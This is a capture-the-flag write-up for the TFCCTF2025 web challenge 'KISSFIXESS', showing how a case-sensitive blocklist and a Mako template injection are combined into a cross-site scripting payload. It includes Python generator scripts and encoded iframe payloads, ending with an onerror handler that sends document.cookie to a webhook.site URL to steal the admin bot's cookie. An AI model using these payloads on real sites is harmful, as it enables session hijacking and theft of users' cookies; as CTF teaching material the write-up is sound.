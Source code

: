 # 🏷️ KISSFIXESS

**Category:** Web  
**Description:**  
> Kiss My Fixes.

This is the important things from the app.py

```py
lookup = TemplateLookup(directories=[os.path.dirname(__file__)], module_directory=MODULE_DIR)

banned = ["s", "l", "(", ")", "self", "_", ".", "\"", "\\", "import", "eval", "exec", "os", ";", ",", "|"]


def escape_html(text):
    """Escapes HTML special characters in the given text."""
    return text.replace("&", "&amp;").replace("<", "&lt;").replace(">", "&gt;").replace("(", "&#40;").replace(")", "&#41;")

def render_page(name_to_display=None):
    """Renders the HTML page with the given name."""
    templ = html_template.replace("NAME", escape_html(name_to_display or ""))
    template = Template(templ, lookup=lookup)
    return template.render(name_to_display=name_to_display, banned="&<>()")

class SimpleHTTPRequestHandler(BaseHTTPRequestHandler):
    def do_GET(self):

        # Parse the path and extract query parameters
        parsed_url = urlparse(self.path)
        params = parse_qs(parsed_url.query)
        name = params.get("name_input", [""])[0]
        
        for b in banned:
            if b in name:
                name = "Banned characters detected!"
                print(b)

        # Render and return the page
        self.send_response(200)
        self.send_header("Content-Type", "text/html")
        self.end_headers()
        self.wfile.write(render_page(name_to_display=name).encode("utf-8"))
```

<br />
As we can see the banned list check doesn't check for capital case letters.
<br />

```py
        for b in banned:
            if b in name:
                name = "Banned characters detected!"
                print(b)
```

<br />
So we can enter "Src" and it will be fine.
<br />
<img/src="https://github.com/Yazan03/CTF-writeups2025/blob/main/TFCCTF2025/images/1.png">
<br />
Now we need to think about getting a xss using open and closing tag but it's blocked but we have an ssti here in render_page function 
<br />

```py

    templ = html_template.replace("NAME", escape_html(name_to_display or ""))
    template = Template(templ, lookup=lookup)
    return template.render(name_to_display=name_to_display, banned="&<>()")
```

<br />

So we can access anything from banned list which contain our needed string using the ssti we have the open and closing tag for xss in banned here, so to get `<` for example we can do `${banned[1]}` this will get us `<` Let's try get `<`: 

<br />
<img/src="https://github.com/Yazan03/CTF-writeups2025/blob/main/TFCCTF2025/images/2.png">
<br />

As we can see it worked now can get a working payload like `<img src=x onerror=alert()>`

I replaced s with S and l with L 

<br />

```${banned[1]}img Src=x onerror=aLert`1`${banned[2]}```

<br />
<img/src="https://github.com/Yazan03/CTF-writeups2025/blob/main/TFCCTF2025/images/3.png">
<br />

But if we want to insert the webhook it will contain a lot of things that blocked but we can use encoding since we have `${banned[0]}` as `&` we can use html encoding for instance `${banned[0]}#x3d` get converted to `=` 



Let's make a script that will help us convert everything 
<br />

```py
st, nd, td = [f"${{banned[{i}]}}" for i in range(3)]

inner_html = (
    '<img SRC=x onerror="alert(1)">'
)

hex_encoded = "".join(f"{st}#x{ord(c):02x}" for c in inner_html)
```

will gave us this 

```
${banned[0]}#x3c${banned[0]}#x69${banned[0]}#x6d${banned[0]}#x67${banned[0]}#x2f${banned[0]}#x73${banned[0]}#x72${banned[0]}#x63${banned[0]}#x3d${banned[0]}#x78${banned[0]}#x20${banned[0]}#x6f${banned[0]}#x6e${banned[0]}#x65${banned[0]}#x72${banned[0]}#x72${banned[0]}#x6f${banned[0]}#x72${banned[0]}#x3d${banned[0]}#x61${banned[0]}#x6c${banned[0]}#x65${banned[0]}#x72${banned[0]}#x74${banned[0]}#x28${banned[0]}#x31${banned[0]}#x29${banned[0]}#x3e
```

<br />
<img/src="https://github.com/Yazan03/CTF-writeups2025/blob/main/TFCCTF2025/images/9.png">
<br />

But when we try it it's rendered as text we can use an iframe to load it as html

```py
st, nd, td = [f"${{banned[{i}]}}" for i in range(3)]

inner_html = (
    '<img SRC=x onerror="alert(1)">'
)

hex_encoded = "".join(f"{st}#x{ord(c):02x}" for c in inner_html)

payload = f"{nd}iframe Srcdoc='{hex_encoded}' {nd}/iframe{td}"


print("\n[+] Final Payload:\n", payload)
```

This is the payload to get alert(1)

```
${banned[1]}iframe Srcdoc='${banned[0]}#x3c${banned[0]}#x69${banned[0]}#x6d${banned[0]}#x67${banned[0]}#x20${banned[0]}#x53${banned[0]}#x52${banned[0]}#x43${banned[0]}#x3d${banned[0]}#x78${banned[0]}#x20${banned[0]}#x6f${banned[0]}#x6e${banned[0]}#x65${banned[0]}#x72${banned[0]}#x72${banned[0]}#x6f${banned[0]}#x72${banned[0]}#x3d${banned[0]}#x22${banned[0]}#x61${banned[0]}#x6c${banned[0]}#x65${banned[0]}#x72${banned[0]}#x74${banned[0]}#x28${banned[0]}#x31${banned[0]}#x29${banned[0]}#x22${banned[0]}#x3e' ${banned[1]}/iframe${banned[2]}
```

<img/src="https://github.com/Yazan03/CTF-writeups2025/blob/main/TFCCTF2025/images/4.png">

Let's try call our webhook:

```py
st, nd, td = [f"${{banned[{i}]}}" for i in range(3)]

inner_html = (
    '<img SRC=x onerror="fetch(\'https://webhook.site/5e62010d-de88-4bf6-8084-881d88f8e883/?q=\'+document.cookie)"/>'
)

hex_encoded = "".join(f"{st}#x{ord(c):02x}" for c in inner_html)

payload = f"{nd}iframe Srcdoc='{hex_encoded}' {nd}/iframe{td}"


print("\n[+] Final Payload:\n", payload)
```
<br />

Got a callback, Let's report to the bot:

<img/src="https://github.com/Yazan03/CTF-writeups2025/blob/main/TFCCTF2025/images/5.png">

We didn't get callback, looking at the bot, Found this option that will disable image loading:
<br />

```py
chrome_opts.add_argument("--blink-settings=imagesEnabled=false")
```

Let's try another payload that doesn't contain an image

```py
st, nd, td = [f"${{banned[{i}]}}" for i in range(3)]

inner_html = (
    '<audio SRC=x onerror="fetch(\'https://webhook.site/5e62010d-de88-4bf6-8084-881d88f8e883?q=\'+document.cookie)">'
)

hex_encoded = "".join(f"{st}#x{ord(c):02x}" for c in inner_html)

payload = f"{nd}iframe Srcdoc='{hex_encoded}' /{td}{nd}/iframe{td}"


print("\n[+] Final Payload:\n", payload)
```

Got it:
<br/>
<img/src="https://github.com/Yazan03/CTF-writeups2025/blob/main/TFCCTF2025/images/7.png">
<br />

<img/src="https://github.com/Yazan03/CTF-writeups2025/blob/main/TFCCTF2025/images/8.png">
